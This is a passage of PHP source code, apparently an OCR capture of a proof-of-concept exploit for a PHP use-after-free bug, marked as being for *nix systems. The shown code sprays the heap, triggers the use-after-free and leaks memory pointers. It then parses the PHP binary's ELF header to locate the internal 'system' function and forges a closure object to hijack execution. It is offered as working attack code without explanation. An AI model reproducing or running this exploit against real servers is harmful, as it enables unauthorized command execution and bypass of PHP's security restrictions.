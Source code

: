 ```php
            }
        }
    }
    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);
            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }
    function trigger_uaf($arg) {
        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }
    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }
    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];
    $helper = new Helper;
    $helper->b = function ($x) { };
    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }
    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;
    write($abc, 0x60, 2);
    write($abc, 0x70, 6);
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);
    $closure_obj = str2ptr($abc, 0x20);
    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }
    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }
    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }
    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); 
```